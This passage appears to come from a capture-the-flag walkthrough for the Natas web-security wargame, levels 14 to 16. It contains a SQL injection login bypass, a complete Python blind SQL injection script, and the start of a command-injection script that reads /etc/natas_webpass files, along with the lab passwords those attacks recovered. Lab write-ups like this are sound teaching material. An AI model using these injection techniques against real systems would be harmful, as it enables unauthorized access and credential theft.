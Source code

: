 Obviously we'll need to do some SQLi to exploit this level.  

After running some test, i've found that `"` is unchecked. Easy then.  
We put the awesome `test"OR "1"="1` in both input and we logon.  

> Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J


### Level 15

As we logon we see an input box and a button, they say that we can check if an user exist.

For this level we'll use a python script and a tecnique called *bruteforce*  

Here's the script:

```python
import requests

auth_header = {'Authorization':'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
alphanumerics = map(chr, range(65, 91) + range(97,123) + range(48, 58))

def make_url(substr):
        return "http://natas15.natas.labs.overthewire.org/index.php?debug=true&username=natas16%22%20and%20BINARY%20SUBSTRING%28password,1,%22" + str(len(substr)) + "%22%29=%22" + substr + "%22%20and%20%22a%22=%22a"

def is_success(url):
    resp = requests.get(make_url(url), headers=auth_header)
    return "This user exists." in resp.text

password = ""

while len(password) < 32:
    for char in alphanumerics:
        print password+char
        if is_success(password+char):
            password += char
            break

    print "Password =", password
```

Let the script run and at the end you'll get the password:

> Password = WaIHEacj63wnNIBROHeqi3p9t0m5nhmh


### Level 16

For this level we'll use the same tools as the one before: python and bruteforce.  
But this time we'll bruteforce the parameter we give to the `grep`, checking for `hello` as answer.  

Here's the script:

```python
import requests

auth_header = {'Authorization':'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='}
alphanumerics = map(chr, range(65, 91) + range(97,123) + range(48, 58))

def make_url(string):
    return "http://natas16.natas.labs.overthewire.org/index.php?needle=hello$(grep -n " + string + " /etc/natas_webpass/natas17)"
def is_correct(string):
    print make_url(string)
    resp = requests.get(make_url(string), headers=auth_header).text
    return "hello" not in resp
# make a list of all possible characters
```